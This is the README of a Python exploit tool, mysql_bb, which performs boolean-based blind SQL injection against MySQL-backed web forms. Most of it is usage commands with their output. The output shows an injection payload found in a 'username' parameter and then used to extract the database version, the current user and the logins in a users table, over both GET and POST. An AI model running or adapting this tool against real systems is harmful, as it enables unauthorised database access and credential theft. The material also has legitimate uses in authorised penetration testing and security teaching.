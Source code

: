 # mysql_bb
Boolean-based blind SQL injection exploit for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP request. Basic concept is the assumption that True and False answers has different Content-Length header and True>False.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results. No ending semicolon is needed since given query will be inserted as subquery into substring() MySQL function.
```bash
#Injection into GET "http://localhost/login?username=admin&password=admin"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
(+) done!

$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select user()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
root@localhost

(+) done!
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method GET "select login from users"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
admin
(+) done!

#Injection into POST "http://localhost/login" with x-www-form-urlencoded body "username=test&password=test"
$ python3 mysql_bb.py --url "http://localhost/login" --data "username=test&password=test"  --method POST "select version()"
Checking parametr "username" with injection "test'/**/or/**/"
(+) Parametr "username" is vulnerable to injection "test'/**/or/**/". Starting the exploit
5.5.47-0+deb8u1
```

## TODO
- Support different content-types for POST requests;
